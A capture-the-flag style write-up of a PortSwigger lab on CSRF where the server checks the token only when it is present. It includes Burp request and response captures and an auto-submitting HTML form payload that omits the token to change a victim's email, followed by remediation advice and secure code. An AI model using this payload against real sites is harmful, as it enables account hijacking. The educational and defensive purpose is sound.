





## Challenge Overview

* **Challenge Name**: CSRF where token validation depends on token being present
* **Category**: Cross-Site Request Forgery (CSRF) / Client-Side Security
* **Level**: Apprentice
* **Target Endpoint**: `POST /my-account/change-email`
* **Objective**: Exploit a flawed anti-CSRF mechanism that only validates the token when the parameter is present in the request body, bypassing verification by omitting the token entirely to change the victim's email address.

---

## 1. Core Fundamentals

### 1.1. The Synchronizer Token Pattern (CSRF Token)

In modern web application security, the standard defense against Cross-Site Request Forgery (CSRF) is the **Synchronizer Token Pattern**:
1. Upon user authentication, the server generates a cryptographically random, high-entropy token and associates it with the user's active session.
2. The server embeds this token into sensitive state-changing HTML forms as a hidden parameter (e.g., `<input type="hidden" name="csrf" value="...">`) or delivers it via a custom response header.
3. When the user executes a state-changing action, the submitted token is verified against the token stored in the server-side session.
4. If the tokens match, the request proceeds; otherwise, the request is immediately rejected.

Because the browser's **Same-Origin Policy (SOP)** prevents external origins from reading DOM contents or response data from the target site, an attacker cannot retrieve this secret token and therefore cannot forge a valid request.

### 1.2. The Ambient Authority Model & Automatic Cookie Transmission

Under the browser's **Ambient Authority** credential-handling model, whenever a web browser initiates an HTTP request targeting a destination origin, it automatically attaches all stored cookies associated with that domain. 

Without anti-CSRF tokens or strict `SameSite` cookie enforcement, the target web server cannot distinguish whether the request was intentionally dispatched by the user or triggered by malicious script running on an external origin.

### 1.3. The Architectural Flaw: Conditional Parameter Presence (Fail-Open Logic)

The vulnerability in this scenario is a prime example of a **Fail-Open Implementation** in parameter validation.

Rather than enforcing the token as a **mandatory prerequisite**, the backend security filter checks the token **only if the parameter is explicitly present in the request body**:

```pseudo
function validateEmailChangeRequest(request, session):
    // CRITICAL SECURITY FLAW: Validation only triggers IF the parameter exists!
    if request.body.has("csrf"):
        if request.body.csrf != session.csrfToken:
            return HTTP_400_BAD_REQUEST("Invalid CSRF token")
    
    // If the "csrf" parameter is entirely omitted, execution falls through!
    updateEmail(session.userId, request.body.email)
    return HTTP_302_REDIRECT("/my-account")
```

### 1.4. Why Does This Vulnerability Occur in Production?

In enterprise applications, this defective pattern frequently emerges from:
1. **Defensive Programming Misconceptions:** Developers attempting to prevent `NullPointerException` or `Undefined Index` warnings write `if (request.has('csrf')) { ... }` but omit the mandatory `else { abort(); }` rejection branch.
2. **Backward Compatibility & Phased API Rollouts:** During transitions where a legacy mobile client or third-party integration does not yet support CSRF tokens, developers intentionally make the token "optional" to avoid breaking older clients—thereby invalidating the security guarantee for all users.
3. **Improper Custom Middleware:** Custom security filters implemented from scratch instead of relying on framework-native security controls.

### 1.5. The Three Classical Preconditions for CSRF

```text
+-----------------------------------------------------------------------------------------+
|                                CSRF Pre-Conditions Matrix                               |
+-----------------------------------------------------------------------------------------+
| Condition 1: Relevant Action            --> YES: POST /my-account/change-email          |
| Condition 2: Cookie-based Session       --> YES: Authenticated via "Cookie: session=..."|
| Condition 3: No Unpredictable Data      --> BYPASSED: Omitting the "csrf" parameter     |
|                                             disables token validation completely        |
+-----------------------------------------------------------------------------------------+
| VERDICT: CRITICALLY VULNERABLE TO PARAMETER-OMISSION CSRF ATTACKS                       |
+-----------------------------------------------------------------------------------------+
```

---

## 2. Attack Architecture / Threat Model

### 2.1. Trust Boundaries & Fail-Open Vulnerability Analysis

The vulnerability stems from a fundamental failure in trust boundary enforcement:
* **The Server-Side Filter** assumes that the absence of a token indicates an unauthenticated or legacy context that requires no CSRF validation, yet processes the mutation under the user's active session.
* **The Client-Side Browser** executes untrusted attacker-controlled HTML and automatically transmits ambient session credentials to the vulnerable endpoint.

### 2.2. Attack Flow Diagram

```text
[ Attacker Exploit Server ]
       │
       │  1. Prepares malicious HTML exploit omitting the CSRF field:
       │     <form method="POST" action="https://target.com/my-account/change-email">
       │         <input type="hidden" name="email" value="tu4nk13t@gmail.com">
       │         <!-- "csrf" parameter is intentionally omitted! -->
       │     </form>
       │     <script>document.forms[0].submit();</script>
       │
       │  2. Delivers phishing link / exploit URL to Victim
       ▼
[ Authenticated Victim Browser ]
       │  (Victim maintains an active session cookie on target.com)
       │
       │  3. Loads attacker exploit page (/exploit)
       │  4. DOM executes document.forms[0].submit() automatically
       │
       │  5. Issues cross-site POST request with ambient session cookie:
       │     POST /my-account/change-email HTTP/2
       │     Host: target.com
       │     Cookie: session=v6B87WKSRdJL...  <── Browser automatically attaches!
       │     Body: email=tu4nk13t@gmail.com
       ▼
[ Target Web Application ]
       │
       │  6. Security Filter checks: Is "csrf" parameter present?
       │     ──► FALSE! Evaluates to false -> Skips token validation!
       │  7. Backend Controller processes email update
       │  8. Updates victim's account email to tu4nk13t@gmail.com
       ▼
[ State Mutated: Account Takeover Prerequisite Achieved ]
```

### 2.3. Root Cause Analysis

The root cause of this vulnerability lies in **Fail-Open Parameter Validation**:
1. **Absence of Mandatory Presence Check:** The verification routine only triggers conditional comparison when the `csrf` key is provided.
2. **Missing Default Deny:** If the token parameter is absent, the request is allowed to proceed rather than being rejected with `HTTP 403 Forbidden`.

---

## 3. Vulnerability Exploitation

### Phase 1: Baseline Request Interception via Burp Suite

We log into the test account (`wiener:peter`) and trigger the email change functionality while proxying traffic through Burp Suite:



#### HTTP Request Analysis

```http
POST /my-account/change-email HTTP/2
Host: 0a03009103f0221080b33f4e00900013.web-security-academy.net
Cookie: session=v6B87WKSRdJLluODVmhm9OptYKgepIbe
Content-Length: 59
Content-Type: application/x-www-form-urlencoded

email=kkk%40gmail.com&csrf=aRUEgn4RmE10gyL0RNMxTVcFXil7GhPB
```

#### HTTP Response Analysis

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

* The legitimate request contains both `email` and `csrf`.
* The server responds with `HTTP/2 302 Found`, confirming that when a valid token is supplied, the email change succeeds.

---

### Phase 2: Proving Token Validation (Tampered Token Test)

In **Burp Repeater**, we modify the token value to an arbitrary string (`csrf=abc`) to verify whether the server actively validates token integrity:



```http
POST /my-account/change-email HTTP/2
Host: 0a03009103f0221080b33f4e00900013.web-security-academy.net
Cookie: session=v6B87WKSRdJLluODVmhm9OptYKgepIbe
Content-Length: 30
Content-Type: application/x-www-form-urlencoded

email=kkk%40gmail.com&csrf=abc
```

#### Server Response:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid CSRF token"
```

#### Security Takeaway:
The server actively rejects the tampered token with `400 Bad Request` and returns `"Invalid CSRF token"`. This confirms that the backend **does** have token verification logic in place, and attackers cannot simply supply a dummy token.

---

### Phase 3: Parameter-Omission Bypass Discovery

Next, we test for the **Parameter Presence Flaw**: what happens if the parameter `csrf` is **completely removed** from the body?

In Burp Repeater, we delete `&csrf=abc`, leaving only `email=kkk%40gmail.com`:



```http
POST /my-account/change-email HTTP/2
Host: 0a03009103f0221080b33f4e00900013.web-security-academy.net
Cookie: session=v6B87WKSRdJLluODVmhm9OptYKgepIbe
Content-Length: 21
Content-Type: application/x-www-form-urlencoded

email=kkk%40gmail.com
```

#### Server Response:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

#### Critical Finding:
The server returns `HTTP/2 302 Found`! Without the `csrf` key in the request body, the validation routine was completely skipped. The application updated the email to `kkk@gmail.com` despite this being a standard `POST` request.

---

### Phase 4: Weaponizing the Exploit on the Exploit Server

We navigate to the PortSwigger **Exploit Server** (`https://exploit-...exploit-server.net/exploit`) and craft our payload:



#### Payload Configuration:
* **File:** `/exploit`
* **Head:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/html; charset=utf-8
  ```
* **Body:**
  ```html
  <form method="POST" action="https://0a03009103f0221080b33f4e00900013.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="tu4nk13t@gmail.com">
  </form>
  <script>
      document.forms[0].submit();
  </script>
  ```

#### Detailed Breakdown of Exploit Mechanics:
1. **Method & Action:** The form uses `method="POST"` directed at the absolute target URL `https://0a03009103f0221080b33f4e00900013.web-security-academy.net/my-account/change-email`.
2. **Intentional Absence of CSRF Field:** Notice that there is **no `<input name="csrf">` element**. Only `name="email"` with the attacker's value (`tu4nk13t@gmail.com`) is provided.
3. **Zero-Click Execution:** The `<script>document.forms[0].submit();</script>` automatically dispatches the form the instant the DOM tree finishes parsing the form element, requiring zero user interaction.

---

### Phase 5: Delivering Exploit to Victim & Verification

1. Click **Store** to persist the payload on the Exploit Server.
2. Click **Deliver exploit to victim** to simulate sending the phishing link to the victim user.



#### Execution Flow & Lab Resolution:
1. The PortSwigger automated victim crawler (logged in as `wiener`) visits the attacker's `/exploit` page.
2. The bot's browser parses the HTML and immediately runs `document.forms[0].submit()`.
3. A cross-origin `POST` request is dispatched to `/my-account/change-email` carrying the body `email=tu4nk13t@gmail.com`.
4. The browser automatically attaches the victim's session cookie (`Cookie: session=...`) via ambient credentials.
5. Because the request contains no `csrf` parameter, the vulnerable backend check evaluates to `false`, skips token verification entirely, and updates the victim's email.
6. The lab engine detects the state change on the simulated victim account and marks the challenge as **Solved** (*Figure 5*).

---

## 4. Remediation Strategies

Remediating parameter-omission CSRF flaws requires implementing a strict **Fail-Closed** security architecture across token validation, framework middleware, and cookie attributes.

```text
+-----------------------------------------------------------------------------------------+
|                              Multi-Layered CSRF Defenses                                |
+-----------------------------------------------------------------------------------------+
| 1. Fail-Closed Validation : Enforce mandatory token presence on all mutating requests   |
| 2. Framework Middleware   : Utilize battle-tested CSRF libraries instead of custom code |
| 3. Browser Attributes     : Configure SameSite=Lax / SameSite=Strict on session cookies |
| 4. Step-Up Security       : Re-authenticate current credentials on critical operations  |
+-----------------------------------------------------------------------------------------+
```

### 4.1. Enforce Mandatory Token Presence (Fail-Closed Architecture)

Token presence must **never** be optional. The validation logic must be structured with a **Fail-Closed** default:

```javascript
// SECURE IMPLEMENTATION (Node.js / Express)
function handleChangeEmail(req, res) {
    const submittedToken = req.body.csrf;
    const sessionToken = req.session.csrfToken;

    // RULE 1: Token MUST be present
    // RULE 2: Token MUST match the session token
    if (!submittedToken || submittedToken !== sessionToken) {
        return res.status(403).json({ 
            error: "Forbidden: A valid CSRF token is mandatory for this request." 
        });
    }

    // Proceed only after strict validation
    updateEmailInDatabase(req.session.userId, req.body.email);
    return res.redirect('/my-account');
}
```

### 4.2. Use Established Framework Middleware

Avoid writing custom CSRF verification routines from scratch. Modern enterprise frameworks provide battle-tested implementations:
* **Node.js / Express:** Use official CSRF protection libraries (e.g., `csurf` or `@fastify/csrf-protection`).
* **Python / Django:** Ensure `django.middleware.csrf.CsrfViewMiddleware` is active globally in `settings.py`.
* **Java / Spring Security:** Enable CSRF defense via `http.csrf().csrfTokenRepository(...)`. Spring Security rejects any mutating request missing the CSRF header or parameter by default (`403 Access Denied`).

### 4.3. Configure `SameSite` Cookie Attributes

All session cookies should be configured with appropriate `SameSite` restrictions:

```http
Set-Cookie: session=...; Secure; HttpOnly; SameSite=Lax; Path=/
```
* **`SameSite=Lax`:** Modern browsers will block cookies on cross-origin `POST` form submissions, neutralizing this attack even if backend token validation has flaws.
* **`SameSite=Strict`:** Cookies are never transmitted in cross-origin contexts, offering maximal isolation.

### 4.4. Enforce Re-Authentication for High-Risk Actions

Critical profile changes (such as changing an email, updating passwords, or adding authentication factors) should require the user to provide their **current password** or complete **MFA verification**. This ensures that even in the presence of logic flaws in CSRF handling, unauthorized modifications remain impossible.
